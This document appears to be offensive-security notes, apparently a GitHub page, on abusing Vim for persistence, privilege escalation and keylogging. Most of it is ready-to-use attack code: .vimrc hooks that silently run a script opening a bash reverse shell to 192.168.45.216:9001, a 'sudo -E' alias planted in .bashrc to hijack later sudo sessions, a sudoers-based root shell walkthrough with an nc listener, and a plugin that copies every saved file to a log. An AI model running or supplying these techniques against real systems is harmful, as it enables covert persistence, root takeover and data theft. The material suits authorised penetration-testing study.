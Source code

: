 # Executing commands under Vim
Within Vim, prepending ':!' allows for command execution when running Vim "Interactively"
```
:!echo "This is a command"
:!ping 127.0.0.1
```
Otherwise, .vimrc can be configured to execute commands when Vim is started.
```bash
echo '!ping 127.0.0.1' > ~/.vimrc
```

# VIM Backdoor

Vim can be used for persistence by appending silent startup commands to a `.vimrc` file, which gets executed every time a user opens Vim.


```bash
# Ensure .vimrc exists
touch ~/.vimrc

# We can then echo a silent command to run when Vim is started.
# The command below will execute the contents of .vimrunscript.
# source is a shell command that runs the content of the specified file.
echo ':silent !source /tmp/exploit' > ~/.vimrc


# Next, we set up `.vimrunscript`.
# Below is a simple example where a nc reverse shell is opened everytime Vim is opened.
cat << 'EOF' > /tmp/exploit
#!/bin/bash
sh -i >& /dev/tcp/192.168.45.216/9001 0>&1
EOF
```

# VIM and Sudo

## Ubuntu/Red Hat Systems:
On Ubuntu and Red Hat-based systems, when Vim is run with `sudo`, it still uses the **current user's .vimrc** file, even in the sudo context. This makes it easy to execute commands as root by modifying the user's `.vimrc`. This includes any scripts defined by `!source`, which will get executed in the context of `root`.

## Debian and Similar Systems:
On Debian-based systems, Vim run with `sudo` uses the **root user's .vimrc**. To achieve persistence in this context, you can add an alias to the user's `.bashrc` to preserve their environment when using `sudo`. This ensures the `.vimrc` is still used in the sudo context. In the below command, when `sudo` is called `sudo -E` will be executed instead.

```bash
echo 'alias sudo="sudo -E"' >> ~/.bashrc

# Optionally, enforce the alias change immediately
source ~/.bashrc
```
Sudo and Sudo -E has the following key differences:
- `sudo` Resets most environment variables for security and isolation.
- `sudo -E` Preserves the user's environment variables, allowing custom settings and configurations to be used in the command run as root.

This alias maintains control over the user's environment, allowing you to use `.vimrc` for backdoor-like functionality in future `sudo` sessions.

```
+-------------------------------------------------------------+
|   VIM configuration handling depends on Linux distribution: |
+-------------------------------------------------------------+
           |                                                |
           v                                                v
+-----------------------------------+        +-----------------------------------+
| Ubuntu, Red Hat (or similar):     |        | Debian (or similar):              |
| - Uses the user's .vimrc file     |        | - Uses the root's VIM config in   |
|   even in sudo context.           |        |   sudo context.                   |
+-----------------------------------+        +-----------------------------------+
           |                                                |
           v                                                v
+-----------------------------------+        +-----------------------------------+
| If VIM is run via sudo:           |        | Add alias to user's .bashrc to    |
| - Script in .vimrc will execute   |        | maintain control in future sudo   |
|   as root.                        |        | sessions.                         |
+-----------------------------------+        +-----------------------------------+
                                                            |
                                                            v
                                     +------------------------------------------+
                                     | echo 'alias sudo="sudo -E"' >> /home/    |
                                     | target_user/.bashrc to persist the       |
                                     | environment in future sudo sessions.     |
                                     +------------------------------------------+
```

# Vim Sudoers abuse
In some instances It may be found that users whom have an entry in the sudoers file can be exploited to gain a root shell through Vim.
In the output below, the user low-priv is able to execute the command `/usr/bin/vim /opt/important.conf` in the context of root without specifying a password

```
Matching Defaults entries for low-priv on victim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User low-priv may run the following commands on victim:
    (root) NOPASSWD: /usr/bin/vim /opt/important.conf
```
This means by running  `/usr/bin/vim /opt/important.conf` Vim is opened as root whereby it is possible to drop into the root shell by running `:shell` within Vim.

Putting it all together, it is possible to obtain a root shell by exploiting the above sudoers configuration. The example below is performed on ubuntu where .vimrc is executed within root context by default.
```bash
# Ensure that the user's .vimrc file exists
touch ~/.vimrc

# Add a silent command to execute the ~/exploit script every time Vim starts
echo ':silent !source ~/exploit' > ~/.vimrc

# Create the ~/exploit script with a reverse shell that connects to the attacker's machine
cat << 'EOF' > ~/exploit
#!/bin/bash
sh -i >& /dev/tcp/192.168.45.216/9001 0>&1
EOF

# On the attacker's system, set up a Netcat listener to catch the reverse shell
nc -lvp 9001

# Victim runs Vim with sudo privileges, triggering the reverse shell
sudo /usr/bin/vim /opt/important.conf
```

# Vim Keylogger
Useful for extracting potentially sensitive data. Can also be used in restricted environments where `:shell` is restricted within Vim.
This is run whenever Vim is started due to the presence a plugin file in `/.vim/plugin/*.vim`.

```bash
mkdir ~/.vim/plugin/settings.vim
```
```bash
# Only log under root user
cat << 'EOF' > ~/.vim/plugin/settings.vim
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/KeyLogger.log
:endif
EOF

# Log under anyone
cat << 'EOF' > ~/.vim/plugin/settings.vim
:autocmd BufWritePost * :silent :w! >> /tmp/KeyLogger.log
EOF
```
